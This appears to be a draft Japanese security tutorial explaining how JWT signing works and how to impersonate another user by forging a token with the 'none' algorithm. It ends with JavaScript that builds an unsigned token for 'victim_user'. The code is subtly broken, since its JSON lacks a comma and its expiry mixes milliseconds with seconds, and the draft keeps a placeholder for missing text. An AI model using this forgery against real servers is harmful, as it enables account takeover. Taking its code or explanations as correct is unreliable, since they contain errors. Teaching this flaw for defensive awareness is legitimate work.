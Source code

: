 # 任意のユーザーに成りすまそう (JWT ヘッダの偽造)

JWT とは、データベースへのアクセスなしにユーザーの認証が可能な画期的な技術です。
以下に、基本的な JWT の動きを示します。
以下では簡単のためハッシュ関数を用いるが、公開鍵暗号を使うことで、署名鍵と確認鍵を分けることも可能。

1. JWT トークンの作成
  - サーバーがクライアントを JWT 以外の方法で認証する
  - 認証情報と有効期限を JSON の形式に起こす
  - JSON とサーバーのシークレットキーを合わせたハッシュ値を取得する
  - JSON とハッシュ値と署名方法 (ヘッダ) の組をクライアントに保存する

2. JWT トークンの認証
  - クライアントから送信された JWT トークンのデータ部分と、サーバーのシークレットキーを合わせたハッシュ値を取得する
  - ハッシュ値とトークンのハッシュ部分が一致すれば、 JWT トークンがでサーバーが発行したものであることが確認できる

(なんかいい感じの文章を挟む)

しかし、JWT には、認証方法をクライアントから送信されたヘッダだよりにするという致命的な欠陥があります。
そして、JWT の仕様により、 `none` (認証をしない) が有効な認証方法である必要があると定められています。
これを利用して、任意のユーザーに成りすましてみましょう。

```js
const jwt_header = `
  {
    "alg": "none",
    "typ": "JWT"
  }
`;
const jwt_body = `
  {
    "exp": ${Date.now() + 1000 /* 失効する時間 (1000秒後に設定した) */}
    "userid": "victim_user"
  }
`;

const jwt_token = `${btoa(jwt_header)}.${btoa(jwt_body)}.`;
```
